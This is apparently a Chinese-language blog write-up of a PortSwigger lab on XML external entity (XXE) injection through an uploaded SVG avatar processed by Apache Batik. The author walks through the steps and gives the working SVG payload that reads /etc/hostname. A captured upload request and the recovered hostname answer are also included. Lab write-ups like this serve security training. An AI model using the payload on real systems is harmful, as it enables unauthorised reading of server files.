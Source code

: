```yaml
---
layout: post
title: "Exploiting XXE via image file upload"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_XXE
author: ""
tags: ['PortSwigger_Lab', 'XXE']
---
```






# Exploiting XXE via image file upload


教學
https://www.ttcas.org/zh-Hant/article/1wv1s_255ez.html
https://zhuanlan.zhihu.com/p/323315064











```

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.
Hint

The SVG image format uses XML.



該實驗室允許用戶將頭像附加到評論中，並使用 Apache Batik 庫來處理頭像圖像文件。

為解決實驗室問題，上傳一張圖片，顯示處理後的 /etc/hostname 文件的內容。 然後使用“提交解決方案”按鈕提交服務器主機名的值。

暗示
SVG 圖像格式使用 XML。






```



官方payload:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px"
	xmlns="http://www.w3.org/2000/svg"
	xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text>
</svg>


```

這個xml payload 就是 去請求
```
file:///etc/hostname
```
抓取到的內容會被tag text 裡面 





我們先不攻擊修該一下存成 .svg，看是不是一張圖片。

```

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="1000px"
	xmlns="http://www.w3.org/2000/svg"
	xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="60" x="100" y="100">123123123</text>
</svg>


```


的確是一張圖。


在修該一下刪除 svg 其它xmlns 屬性 ，存成 .svg 圖片檔

```

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="1000px">
	<text font-size="60" x="100" y="100">123123123</text>
</svg>


```



實測不用這些 也可以被處理成圖片，但是在上傳後，後端會出現錯誤，所以最好加上去
```
http://www.w3.org/2000/svg 
http://www.w3.org/1999/xlink
```




我找了網上另一個資源。

test.svg
```xml

<svg version="1.1"
  baseProfile="full"
  width="300" height="200"
  xmlns="http://www.w3.org/2000/svg">

  <rect width="100%" height="100%" stroke="red" stroke-width="4" fill="yellow" />

  <circle cx="150" cy="100" r="80" fill="green" />

  <text x="150" y="115" font-size="16" text-anchor="middle" fill="white">RUNOOB SVG TEST</text>

</svg>



```

實測也是需要，不能刪除。

```
xmlns="http://www.w3.org/2000/svg"
```



研究一下目標



post command 按鈕
需要填
comment 
name
email
圖片其實要放，不過我在filename=""
亂填了一個複檔名。也可以成功post
```
filename="123.png"
```



```


POST /post/comment HTTP/1.1
Host: 0a24003404fa795cc1c0cdc900270086.web-security-academy.net
Cookie: session=640j9YDHhN0iujmr99jSGhprFrqSCqNd
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=-----24022411809284857813804630655--


```



知道這是正常的後，BP 換一下payload就可以了。

成功送出後，可以看到大頭貼有一串數字。

放大圖片。
看到
38591ec01022



提交，成功



















